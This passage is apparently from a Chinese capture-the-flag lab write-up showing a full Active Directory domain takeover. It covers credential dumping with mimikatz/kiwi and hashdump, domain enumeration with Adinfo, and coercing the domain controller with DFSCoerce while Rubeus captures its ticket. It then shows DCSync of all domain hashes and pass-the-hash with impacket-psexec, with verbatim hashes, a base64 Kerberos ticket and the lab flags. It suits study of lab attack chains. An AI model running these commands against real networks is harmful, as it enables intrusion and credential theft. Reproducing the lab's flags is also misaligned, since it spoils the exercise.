flag02: flag{8012e1e3-a8e1-4d81-81a1-08cb05b91dd6}
```

## 172.22.4.45 XIAORANG\WIN19 抓取域内信息

加载 `mimikatz` 模块

```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            (vincent.letoux@gmail.com)
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

获取所有凭据

```bash
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain    NTLM                              SHA1
--------  ------    ----                              ----
Adrian    WIN19     3008c87294511142799dca1191e69a0f  b7bc3a1b04d9e165c6762b0a1cde5226df5b6a6a
WIN19$    XIAORANG  22efd36d08f27afdf0628d9ba2bff827  01fdaaa6a61872baf4abcd2014135d01cc3ed463
WIN19$    XIAORANG  5943c35371c96f19bda7b8e67d041727  5a4dc280e89974fdec8cf1b2b76399d26f39b8f8

wdigest credentials
===================

Username  Domain    Password
--------  ------    --------
(null)    (null)    (null)
Adrian    WIN19     (null)
WIN19$    XIAORANG  (null)

kerberos credentials
====================

Username  Domain        Password
--------  ------        --------
(null)    (null)        (null)
Adrian    WIN19         (null)
WIN19$    xiaorang.lab  62 99 91 1f f6 48 22 37 9c 72 d0 6b e6 f2 49 4f 35 c3 30 10 83 66 2c d0 07 02 15 1b 48 f2 22 be 40 7f 4e a2 f8 6a e0 2e a7 aa cc e2 58 c1 0c 6d 25 ad 40 61 cf 7b f8 1a e8 c0 ec 9b a7
                         85 e3 f0 f5 ed 73 b0 2e 7b cd 70 b8 ad b6 03 57 d7 56 cc fd f0 9b c2 f7 71 81 dc 05 54 dc 92 1b 9b 4e 90 fa 6a 7e 7a ea eb 56 29 cf 8d 19 79 a6 13 5a cc e2 fa 6d 69 85 bf 2e bb e9 b
                        3 3b 7e af e3 11 d6 9e 5d 1f 8d 67 0b a8 4e eb f4 c1 c9 1f 29 0f 22 51 25 cc a9 ee 57 14 a9 8e bf 90 35 89 0f fb fb 41 f1 e7 07 da f0 18 50 6f e8 61 28 05 91 63 a1 bd d8 20 27 04 89
                        00 a8 65 14 8f 7b e5 5e 9a a5 f9 08 da 01 d3 8d de 7b be 6d bd 46 68 6a 79 6d 17 93 72 4b f2 01 29 9f 48 61 2c a9 c8 dc 02 67 4e 50 cf 64 eb 2b 5f 83 4d 85 93 95 0c f4 ba 8d
WIN19$    xiaorang.lab  3a 94 de 4d 87 8e 7d 46 88 ec 9c 70 fd f0 c5 3e 4c f3 ce 6a 80 79 46 c6 2f f9 52 9b 4e 1d 90 58 52 2a 4e ac bf 05 09 08 06 0c 4b a9 a2 aa a2 9d db 0d f8 09 82 c0 6e f4 1b 81 93 59 67
                         54 de 17 82 d7 c3 82 c5 38 13 4f d0 55 98 f6 a2 cc e7 cb 85 84 35 8a 0c 2e 9f d1 90 0c 0f c1 ea 0d d9 c5 d9 7f 29 a3 57 46 6b bf a4 b9 73 9a 80 84 1d df 3f 33 f5 16 e4 ee 2e d3 88 9
                        2 cd a5 6e ac e3 eb 71 43 ed 7c b8 a2 9e 52 d5 31 1c 50 9b c8 71 03 e1 8e 4f 60 53 84 13 19 02 e2 8d 92 3f dc 0b 38 2c 13 c1 0e 6b 64 a7 fc 7a 2a a5 0e e0 b0 66 a9 a0 2f 8d 8d 40 f8
                        72 d3 36 d3 3a a9 0d 3f b9 00 ef 3e 90 d9 36 a2 ad 36 2a 22 cd a0 cc 5b f4 0e a4 6b d3 24 8e 6e 99 59 96 d9 f8 a7 26 09 58 0a c2 3a 69 56 76 40 b9 10 92 a7 5c aa 3d e1 d0 1f
win19$    XIAORANG.LAB  62 99 91 1f f6 48 22 37 9c 72 d0 6b e6 f2 49 4f 35 c3 30 10 83 66 2c d0 07 02 15 1b 48 f2 22 be 40 7f 4e a2 f8 6a e0 2e a7 aa cc e2 58 c1 0c 6d 25 ad 40 61 cf 7b f8 1a e8 c0 ec 9b a7
                         85 e3 f0 f5 ed 73 b0 2e 7b cd 70 b8 ad b6 03 57 d7 56 cc fd f0 9b c2 f7 71 81 dc 05 54 dc 92 1b 9b 4e 90 fa 6a 7e 7a ea eb 56 29 cf 8d 19 79 a6 13 5a cc e2 fa 6d 69 85 bf 2e bb e9 b
                        3 3b 7e af e3 11 d6 9e 5d 1f 8d 67 0b a8 4e eb f4 c1 c9 1f 29 0f 22 51 25 cc a9 ee 57 14 a9 8e bf 90 35 89 0f fb fb 41 f1 e7 07 da f0 18 50 6f e8 61 28 05 91 63 a1 bd d8 20 27 04 89
                        00 a8 65 14 8f 7b e5 5e 9a a5 f9 08 da 01 d3 8d de 7b be 6d bd 46 68 6a 79 6d 17 93 72 4b f2 01 29 9f 48 61 2c a9 c8 dc 02 67 4e 50 cf 64 eb 2b 5f 83 4d 85 93 95 0c f4 ba 8d
```

同时获取用户的哈希信息

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ba21c629d9fd56aff10c3e826323e6ab:::
Adrian:1003:aad3b435b51404eeaad3b435b51404ee:3008c87294511142799dca1191e69a0f:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:44d8d68ed7968b02da0ebddafd2dd43e:::
```

使用 [lzzbb/Adinfo: 域信息收集工具](https://github.com/lzzbb/Adinfo) 进一步抓取域内信息

```bash
PS C:\Users\Adrian\Desktop> .\Adinfo_win.exe -d xiaorang.lab --dc 172.22.4.7 -u WIN19$ -H 22efd36d08f27afdf0628d9ba2bff827

           _____  _        __
     /\   |  __ \(_)      / _|
    /  \  | |  | |_ _ __ | |_ ___
   / /\ \ | |  | | | '_ \|  _/ _ \     Tools that collect information from domain
  / ____ \| |__| | | | | | || (_) |
 /_/    \_\_____/|_|_| |_|_| \___/     v1.5 by lzz

[i] Try to connect '172.22.4.7'
[c] Auth Domain: xiaorang.lab
[c] Auth user: WIN19$
[c] Auth hash: 22efd36d08f27afdf0628d9ba2bff827
[c] connected successfully,try to dump domain info
[i] DomainVersion found!
                    [+] Windows 2016 Server operating system
[i] Domain SID:
                    [+] S-1-5-21-1913786442-1328635469-1954894845
[i] Domain MAQ found
                    [+] 10
[i] Domain Account Policy found
                    [+] pwdHistory: 24
                    [+] minPwdLength: 7
                    [+] minPwdAge: 1(day)
                    [+] maxPwdAge: 42(day)
                    [+] lockoutThreshold: 0
                    [+] lockoutDuration: 30(min)
[i] Domain Controllers: 1 found
                    [+] DC01$  ==>>>   Windows Server 2016 Datacenter  [10.0 (14393)]  ==>>>  172.22.4.7
[i] ADCS has not found!
[i] Domain Exchange Server: 0 found
[i] Domain All DNS:
                    [+] Domain Dns 3 found,Saved in All_DNS.csv
[i] Domain Trusts: 0 found
[i] SPN: 39 found
[i] Domain GPOs: 2 found
[i] Domain Admins: 1 users found
                    [+]Administrator
[i] Enterprise Admins: 1 users found
                    [+]Administrator
[i] administrators: 1 users found
                    [+]Administrator
[i] Backup Operators: 0 users found
[i] Users: 6 found
[i] User with Mail: 0 found
[i] Only_name_and_Useful_Users: 3 found
[i] Only_admincount=1_andUseful_Users: 1 found
[i] Locked Users: 0 found
[i] Disabled Users: 3 found
[i] Users with passwords not set to expire: 2 found
[i] Domain Computers: 5 found
[i] Only_name_and_Useful_computers: 5 found
[i] Groups: 49 found
[i] Domain OUs: 1 found
[i] LAPS Not found
[i] LAPS passwords: 0 found
[i] SensitiveDelegate Users: 0 found
[i] AsReproast Users: 0 found
[i] Kerberoast Users: 1 found
                    [+] CN=krbtgt,CN=Users,DC=xiaorang,DC=lab  ==>>>  kadmin/changepw
[i] SIDHistory Users: 0 found
[i] CreatorSID Users: 2 found
                    [+] WIN-3X7U15C2XDM$  ==>>>  Marcus
                    [+] WIN-YUUAW2QG9MF$  ==>>>  Marcus
[i] RBCD Users: 0 found
[i] Unconstrained Deligation Users: 1 found
                    [+] WIN19$
[i] Constrained Deligation Users: 0 found
[i] Krbtgt password last set time: 2022-06-22 22:54:34 +0800 CST
[i] CSVs written to 'csv' directory in C:\Users\Adrian\Desktop
[i] Execution took 1.0226163s
```

在域内发现一个非约束委派，尝试利用

## 172.22.4.45 XIAORANG\WIN19 非约束委派

首先，创建新的管理员账号

```bash
net user randark admin123 /add
net localgroup administrators randark /add
```

登陆新的管理员账号，上传 `Rubeus.exe` 进行票据抓取

```bash
PS C:\Users\randark\Desktop> .\Rubeus.exe monitor /interval:1 /nowrap /targetuser:DC01$

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: TGT Monitoring
[*] Target user     : DC01$
[*] Monitoring every 1 seconds for new TGTs
```

用 `dfscoerce` 触发 RPC 使 DC 向 WIN19 认证

```bash
┌──(randark ㉿ kali)-[~/pocs]
└─$ proxychains4 python3 ./DFSCoerce/dfscoerce.py -u "WIN19$" -hashes :22efd36d08f27afdf0628d9ba2bff827 -d xiaorang.lab win19 172.22.4.7
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[-] Connecting to ncacn_np:172.22.4.7[\PIPE\netdfs]
[proxychains] Strict chain  ...  139.*.*.*:10001  ...  172.22.4.7:445  ...  OK
[+] Successfully bound!
[-] Sending NetrDfsRemoveStdRoot!
NetrDfsRemoveStdRoot
ServerName:                      'win19\x00'
RootShare:                       'test\x00'
ApiFlags:                        1


DFSNM SessionError: code: 0x490 - ERROR_NOT_FOUND - Element not found.
```

成功监听到票据

```bash
[*] 2024/7/24 2:18:02 UTC - Found new TGT:

  User                  :  DC01$@XIAORANG.LAB
  StartTime             :  2024/7/24 8:15:17
  EndTime               :  2024/7/24 18:15:17
  RenewTill             :  2024/7/31 8:15:17
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFlDCCBZCgAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoQ4bDFhJQU9SQU5HLkxBQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMWElBT1JBTkcuTEFCo4IEVDCCBFCgAwIBEqEDAgECooIEQgSCBD5aZsYI9Sw2W6J+rVNw+77PB+2CdipSyfMJuMYJuep25IVTVTASjwKCfMgBjw0UjoQHMrTZmXdiQD5RBKogFn3zkQgqUUSTHMkjtN5/97EcrNuobYOEYByCcJDJVNVFYpF4BHvOwT1oW9tfRNK8YGcKSwSTyIITkeLbukhwym5CbYgiy//zubFVQTkR31cokGPtkuPfBt5lI27xMKhxQ1Ij59EQHGoYOIJBrO2Lvc0UCD19aVHq2Qqf/dqaYwUZ2q/YhEnby/ws/dCfZlWpPJK/pgDErh9ibcsEABDvV8Rhm833Yc8jIPf8J8DKFKFAfl80ZnxRwTLTXIKR3fpj0kFWg3pSApolh4SY3PiW7k9X9fuK+4LI8TuH5ZK47MAafUMvByyGYZwJ3Yrar0m99ia9JLn3jrX6Qk4LpK3VJppuNlN+gwMC9/mYlGyjlXCBZgZCnalbgNUlRFdvqHZBettxrYugDGGYErhKWt/XtLPW4fvA2FkscK8wm0N1/o0GcdhD/Oy2f+Symu57vNZoQvUqoKVPlbt7ccF6V9BLQoGuIr831JrMDLXGdPChV+qBRe9ErHUKFTZb4o02Q22gxltkltpprYBNprl9mS9FWWycGDO7e6wYGrYTFxFaHwUL7U+TY3OiYucHTzUWh1cauxjYchJBZqI7oOe0MW9IdJ6OkFSK1IpGlPr0WgEpG5RBN1pYvap4H/zHzpR4DvUvJezoJNEZJ8050+3PujeDGV9RRQTkMema+LGyefR3yKe88yiJ+xu+dZI4GWfj96vlQ0wphmm8/ysUMUG9OOfwS8rk98qP0SplwsuCdyvXQxGZOOA9/RPeMgV0KBJwcociO2FRykFL7GVexVJ62Wtl/UY9WqCpBTr44A9gvR92si7gNJdIdHf1AvTSD3xlHOWqYC6E/sFBU6BMjmoFDycK9wmcr1qpg/n3Zm+EnsMb5LLEL3VlK413NadraLP+/mA1CtrQQgSCoWP5uGTwzD/4e64IqgVbt0QrZdQspmd9UsiIX97vxVrTY2Ca4UObnl0LSJc2gUVnP3qSm5J4AXEQRNzI+0m40KshstoIz1dsJp/YVcze+DLeH6HbkFqlTM8hUVok5M69guHXNtsavg2xnw/rjcU2/SyH8vnd4cQgbKirAb0BYt/sIS4wtiOtrbq0vr06c1L10xwkjfe4IC8pmCG6q9RADOn8n+SfFpXBkoSMFUyfqwf4DuS83703iBPG13ushLxWpDcDCxISd2uk8BlatFwNXGDL0IOJnESLseMvwX3Csw8+9PRDLWTIHrAr5a/Np/tZAT3yvh85XE26m6hLs7cGAFXH+m8cmkSws2lTDvERTgXm3uxojoe8sJh7PPBWaM0surxjtYL1JL+6RD6oH/S/2qmw/bFSIanrVM5dwCKblSkcKUKqMg8re4iQ74MqUY6dff2RGt5zldrqk6SjgeMwgeCgAwIBAKKB2ASB1X2B0jCBz6CBzDCByTCBxqArMCmgAwIBEqEiBCAkzDKS0dyBbUs2LWRfrMMsic4a1ZchdPHkd73Kcqxn96EOGwxYSUFPUkFORy5MQUKiEjAQoAMCAQGhCTAHGwVEQzAxJKMHAwUAYKEAAKURGA8yMDI0MDcyNDAwMTUxN1qmERgPMjAyNDA3MjQxMDE1MTdapxEYDzIwMjQwNzMxMDAxNTE3WqgOGwxYSUFPUkFORy5MQUKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDFhJQU9SQU5HLkxBQg==

[*] Ticket cache size: 1
```

## 172.22.4.45 XIAORANG\WIN19 票据文件直接 DCSync

将得到的票据数据 Base64 解码后，储存为 `DC01.kirbi` 文件

然后使用 `Mimikatz` 进行 DCSync

```bash
mimikatz(commandline) # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz(commandline) # kerberos::ptt DC01.kirbi

* File: 'DC01.kirbi': OK

mimikatz(commandline) # lsadump::dcsync /domain:xiaorang.lab /user:administrator
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] 'administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 (USER_OBJECT)
User Account Control : 00000200 (NORMAL_ACCOUNT)
Account expiration   : 1601/1/1 8:00:00
Password last change : 2024/7/24 8:15:12
Object Security ID   : S-1-5-21-1913786442-1328635469-1954894845-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 4889f6553239ace1f7c47fa2c619c252
    ntlm- 0: 4889f6553239ace1f7c47fa2c619c252
    ntlm- 1: 4889f6553239ace1f7c47fa2c619c252
    ntlm- 2: 4889f6553239ace1f7c47fa2c619c252
    ntlm- 3: 4889f6553239ace1f7c47fa2c619c252
    lm  - 0: 813da4984a1e3939a735df91221e943b
    lm  - 1: 5991588b4cc2724a4a3d17b161ad272f
    lm  - 2: 61960a24667b36658ce18243e11a53af

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 23500bf302b53fbd2bd18700afa9046e

* Primary:Kerberos-Newer-Keys *
    Default Salt : XIAORANG.LABAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 23b87fd9c4a80c58fb0d71e2a0d5fc82b7de27156d039ad791093aa88ca95eb3
      aes128_hmac       (4096) : 3a4807b53f305c84603ff072655a5c42
      des_cbc_md5       (4096) : 64feb058753bf1a2
    OldCredentials
      aes256_hmac       (4096) : 23b87fd9c4a80c58fb0d71e2a0d5fc82b7de27156d039ad791093aa88ca95eb3
      aes128_hmac       (4096) : 3a4807b53f305c84603ff072655a5c42
      des_cbc_md5       (4096) : 64feb058753bf1a2
    OlderCredentials
      aes256_hmac       (4096) : 23b87fd9c4a80c58fb0d71e2a0d5fc82b7de27156d039ad791093aa88ca95eb3
      aes128_hmac       (4096) : 3a4807b53f305c84603ff072655a5c42
      des_cbc_md5       (4096) : 64feb058753bf1a2

* Primary:Kerberos *
    Default Salt : XIAORANG.LABAdministrator
    Credentials
      des_cbc_md5       : 64feb058753bf1a2
    OldCredentials
      des_cbc_md5       : 64feb058753bf1a2

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  1fd4772b6f3fea5f0a5a234dde150efb
    02  70b5ab2d5931d45749e4f10b80a70466
    03  0d71e6115a7e5850b3e4c777aba623df
    04  1fd4772b6f3fea5f0a5a234dde150efb
    05  354a5ce3ca3629c6ca77a73b462c0a7f
    06  a692fc773761b7edf3a3cad332053a85
    07  3b3bf4f20b86e7f890d2a6f748684c86
    08  511be1f8053c22c147fe774e84f6cfa0
    09  5cd37846466bba0ab01d0a4fb8fd421a
    10  5c90774e68ba65b15563d817ea03be1d
    11  1aa618d4990ce0b031f56c35b00ef135
    12  511be1f8053c22c147fe774e84f6cfa0
    13  385ea61fafea315b384cff461b9e114c
    14  ee5a115e84919b46e718c6c4294dba78
    15  729b4c3a8edab7f12e037ec161293f44
    16  e3ff26cc0629c51fc68f18ce47173f45
    17  bd6d0bafad3f99c28a9a18d9e5351763
    18  359507105fa376c918a80f7fb982446a
    19  20ad44fe17377c5f3815358c33ca7c34
    20  330fb8b3848b024ba40a8cef987d6795
    21  ec544c990f343fe338a4667f3791e5ab
    22  d528c47b4f30acdeb5bf49f49fed7d64
    23  41bb0903f6c2129f27bfa06e6d9b186b
    24  b5c4fc8c656c14829c0da25e0852582a
    25  8bba781aff9bb5e7939f73c216d0e750
    26  d3bb8972f7c7ffbc5b22392125c4e21f
    27  dd97e0d53b5d1ae346029810cf74d0b8
    28  0c084ded5672573ee7c4127ab474f930
    29  c922d791de366eedeb97c1bd0798d6ff
```

## 172.22.4.45 XIAORANG\WIN19 导入票据直接 DCSync 获取域内哈希

使用 `Rubeus` 导入票据

```bash
PS C:\Users\randark\Desktop> .\Rubeus.exe ptt /ticket:doIFlDCCBZCgAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoQ4bDFhJQU9SQU5HLkxBQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMWElBT1JBTkcuTEFCo4IEVDCCBFCgAwIBEqEDAgECooIEQgSCBD5aZsYI9Sw2W6J+rVNw+77PB+2CdipSyfMJuMYJuep25IVTVTASjwKCfMgBjw0UjoQHMrTZmXdiQD5RBKogFn3zkQgqUUSTHMkjtN5/97EcrNuobYOEYByCcJDJVNVFYpF4BHvOwT1oW9tfRNK8YGcKSwSTyIITkeLbukhwym5CbYgiy//zubFVQTkR31cokGPtkuPfBt5lI27xMKhxQ1Ij59EQHGoYOIJBrO2Lvc0UCD19aVHq2Qqf/dqaYwUZ2q/YhEnby/ws/dCfZlWpPJK/pgDErh9ibcsEABDvV8Rhm833Yc8jIPf8J8DKFKFAfl80ZnxRwTLTXIKR3fpj0kFWg3pSApolh4SY3PiW7k9X9fuK+4LI8TuH5ZK47MAafUMvByyGYZwJ3Yrar0m99ia9JLn3jrX6Qk4LpK3VJppuNlN+gwMC9/mYlGyjlXCBZgZCnalbgNUlRFdvqHZBettxrYugDGGYErhKWt/XtLPW4fvA2FkscK8wm0N1/o0GcdhD/Oy2f+Symu57vNZoQvUqoKVPlbt7ccF6V9BLQoGuIr831JrMDLXGdPChV+qBRe9ErHUKFTZb4o02Q22gxltkltpprYBNprl9mS9FWWycGDO7e6wYGrYTFxFaHwUL7U+TY3OiYucHTzUWh1cauxjYchJBZqI7oOe0MW9IdJ6OkFSK1IpGlPr0WgEpG5RBN1pYvap4H/zHzpR4DvUvJezoJNEZJ8050+3PujeDGV9RRQTkMema+LGyefR3yKe88yiJ+xu+dZI4GWfj96vlQ0wphmm8/ysUMUG9OOfwS8rk98qP0SplwsuCdyvXQxGZOOA9/RPeMgV0KBJwcociO2FRykFL7GVexVJ62Wtl/UY9WqCpBTr44A9gvR92si7gNJdIdHf1AvTSD3xlHOWqYC6E/sFBU6BMjmoFDycK9wmcr1qpg/n3Zm+EnsMb5LLEL3VlK413NadraLP+/mA1CtrQQgSCoWP5uGTwzD/4e64IqgVbt0QrZdQspmd9UsiIX97vxVrTY2Ca4UObnl0LSJc2gUVnP3qSm5J4AXEQRNzI+0m40KshstoIz1dsJp/YVcze+DLeH6HbkFqlTM8hUVok5M69guHXNtsavg2xnw/rjcU2/SyH8vnd4cQgbKirAb0BYt/sIS4wtiOtrbq0vr06c1L10xwkjfe4IC8pmCG6q9RADOn8n+SfFpXBkoSMFUyfqwf4DuS83703iBPG13ushLxWpDcDCxISd2uk8BlatFwNXGDL0IOJnESLseMvwX3Csw8+9PRDLWTIHrAr5a/Np/tZAT3yvh85XE26m6hLs7cGAFXH+m8cmkSws2lTDvERTgXm3uxojoe8sJh7PPBWaM0surxjtYL1JL+6RD6oH/S/2qmw/bFSIanrVM5dwCKblSkcKUKqMg8re4iQ74MqUY6dff2RGt5zldrqk6SjgeMwgeCgAwIBAKKB2ASB1X2B0jCBz6CBzDCByTCBxqArMCmgAwIBEqEiBCAkzDKS0dyBbUs2LWRfrMMsic4a1ZchdPHkd73Kcqxn96EOGwxYSUFPUkFORy5MQUKiEjAQoAMCAQGhCTAHGwVEQzAxJKMHAwUAYKEAAKURGA8yMDI0MDcyNDAwMTUxN1qmERgPMjAyNDA3MjQxMDE1MTdapxEYDzIwMjQwNzMxMDAxNTE3WqgOGwxYSUFPUkFORy5MQUKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDFhJQU9SQU5HLkxBQg==

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Import Ticket
[+] Ticket successfully imported!
```

然后使用 `Mimikatz` 直接 DCSync

```bash
PS C:\Users\randark\Desktop> .\mimikatz_trunk\x64\mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:xiaorang.lab /all /csv
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502     krbtgt  767e06b9c74fd628dd13785006a9092b        514
1105    Aldrich 98ce19dd5ce74f670d230c7b1aa016d0        512
1106    Marcus  b91c7cc463735bf0e599a2d0a04df110        512
1112    WIN-3X7U15C2XDM$        c3ddf0ffd17c48e6c40e6eda9c9fbaf7        4096
1113    WIN-YUUAW2QG9MF$        125d0e9790105be68deb6002690fc91b        4096
1000    DC01$   0d7eae0ce200697f7751e5f6e8080ccf        532480
500     Administrator   4889f6553239ace1f7c47fa2c619c252        512
1103    FILESERVER$     ce6da0d051a2431e7a5456c0785a1c24        4096
1104    WIN19$  22efd36d08f27afdf0628d9ba2bff827        528384

mimikatz(commandline) # exit
Bye!
```

## 172.22.4.7 DC 使用 Administrator 哈希登录 DC

```bash
┌──(randark ㉿ kali)-[~/pocs]
└─$ proxychains4 -q impacket-psexec xiaorang/Administrator@172.22.4.7 -hashes :4889f6553239ace1f7c47fa2c619c252 -codec gbk
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 172.22.4.7.....
[*] Found writable share ADMIN$
[*] Uploading file SStvEKTx.exe
[*] Opening SVCManager on 172.22.4.7.....
[*] Creating service hYIt on 172.22.4.7.....
[*] Starting service hYIt.....
[!] Press help for extra shell commands
Microsoft Windows [版本 10.0.14393]
(c) 2016 Microsoft Corporation。保留所有权利。

C:\Windows\system32> cd C:/Users/Administrator/flag
C:\Users\Administrator\flag> type flag04.txt
 ______   _______  _        _______  _______  _______ __________________ _______  _
(__  \ (  ____ \( \      (  ____ \(  ____ \(  ___)\__   __/\__   __/(  ___  )( (    /|
| (\)| (    \/| (      | (    \/| (    \/| (   ) |   ) (      ) (   | (   ) ||  \  ( |
| |   ) || (__    | |      | (__    | |      | (___) |   | |      | |   | |   | ||   \ | |
| |   | ||  __)   | |      |  __)   | | ____ |  ___  |   | |      | |   | |   | || (\ \) |
| |   ) || (| |      | (      | | \_)| (   ) |   | |      | |   | |   | || | \   |
| (__/)| (____/\| (____/\| (____/\| (___) || )   ( |   | |   ___) (___| (___) || )  \  |
(______/ (_______/(_______/(_______/(_______)|/     \|   )_(   \_______/(_______)|/    )_)


Awesome! Now you have taken over the entire domain network.


flag04: flag{6f4333a1-eed5-4bb4-9b6f-abdf55d0f67e}
```

## flag- 04

```plaintext
 ______   _______  _        _______  _______  _______ __________________ _______  _
(__  \ (  ____ \( \      (  ____ \(  ____ \(  ___)\__   __/\__   __/(  ___  )( (    /|
| (\)| (    \/| (      | (    \/| (    \/| (   ) |   ) (      ) (   | (   ) ||  \  ( |
| |   ) || (__    | |      | (__    | |      | (___) |   | |      | |   | |   | ||   \ | |
| |   | ||  __)   | |      |  __)   | | ____ |  ___  |   | |      | |   | |   | || (\ \) |
| |   ) || (| |      | (      | | \_)| (   ) |   | |      | |   | |   | || | \   |
| (__/)| (____/\| (____/\| (____/\| (___) || )   ( |   | |   ___) (___| (___) || )  \  |
(______/ (_______/(_______/(_______/(_______)|/     \|   )_(   \_______/(_______)|/    )_)


Awesome! Now you have taken over the entire domain network.


flag04: flag{6f4333a1-eed5-4bb4-9b6f-abdf55d0f67e}
```

## 172.22.4.19 FILESERVER.xiaorang.lab 域内横向

既然已经有了域内 Administrator 的凭据，直接拿下剩下的靶机即可

```bash
┌──(randark ㉿ kali)-[~/pocs]
└─$ proxychains4 -q impacket-psexec xiaorang/Administrator@172.22.4.19 -hashes :4889f6553239ace1f7c47fa2c619c252 -codec gbk
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 172.22.4.19.....
[*] Found writable share ADMIN$
[*] Uploading file lUcduVKW.exe
[*] Opening SVCManager on 172.22.4.19.....
[*] Creating service TUsH on 172.22.4.19.....
[*] Starting service TUsH.....
[!] Press help for extra shell commands
Microsoft Windows [版本 10.0.14393]
(c) 2016 Microsoft Corporation。保留所有权利。

C:\windows\system32> cd C:/Users/Administrator/flag

C:\Users\Administrator\flag> type flag03.txt
   . .       . .       .         . .       . .       . .       . .    .    .       . .       . .
.+'|=|`+. .+'|=|`+. .+'|      .+'|=|`+. .+'|=|`+. .+'|=|`+. .+'|=|`+.=|`+. |`+. .+'|=|`+. .+'|=|`+.
|  | `+ | |  | `+.| |  |      |  | `+.| |  | `+.| |  | |  | |.+' |  | `+.| |  | |  | |  | |  | `+ |
|  |  | | |  |=|`.  |  |      |  |=|`.  |  | .    |  |=|  |      |  |      |  | |  | |  | |  |  | |
|  |  | | |  | `.|  |  |      |  | `.|  |  | |`+. |  | |  |      |  |      |  | |  | |  | |  |  | |
|  |  | | |  |    . |  |    . |  |    . |  | `. | |  | |  |      |  |      |  | |  | |  | |  |  | |
|  | .+ | |  | .+'| |  | .+'| |  | .+'| |  | .+ | |  | |  |      |  |      |  | |  | |  | |  |  | |
`+.|=|.+'`+.|=|.+' `+.|=|.+'`+.|=|.+' `+.|=|.+'`+.| |..|      |.+'      |.+'`+.|=|.+' `+.|  |.|


flag03: flag{0183dc6b-9724-47a8-a32b-8a06f4ea0ef6}


Here is fileserver.xiaorang.lab, you might find something interesting on this host that can help you!
```

## flag - 03

```plaintext
   . .       . .       .         . .       . .       . .       . .    .    .       . .       . .
.+'|=|`+. .+'|=|`+. .+'|      .+'|=|`+. .+'|=|`+. .+'|=|`+. .+'|=|`+.=|`+. |`+. .+'|=|`+. .+'|=|`+.
|  | `+ | |  | `+.| |  |      |  | `+.| |  | `+.| |  | |  | |.+' |  | `+.| |  | |  | |  | |  | `+ |
|  |  | | |  |=|`.  |  |      |  |=|`.  |  | .    |  |=|  |      |  |      |  | |  | |  | |  |  | |
|  |  | | |  | `.|  |  |      |  | `.|  |  | |`+. |  | |  |      |  |      |  | |  | |  | |  |  | |
|  |  | | |  |    . |  |    . |  |    . |  | `. | |  | |  |      |  |      |  | |  | |  | |  |  | |
|  | .+ | |  | .+'| |  | .+'| |  | .+'| |  | .+ | |  | |  |      |  |      |  | |  | |  | |  |  | |
`+.|=|.+'`+.|=|.+' `+.|=|.+'`+.|=|.+' `+.|=|.+'`+.| |..|      |.+'      |.+'`+.|=|.+' `+.|  |.|


flag03: flag{0183dc6b-9724-47a8-a32b-8a06f4ea0ef6}


Here is fileserver.xiaorang.lab, you might find something interesting on this host that can help you!
```
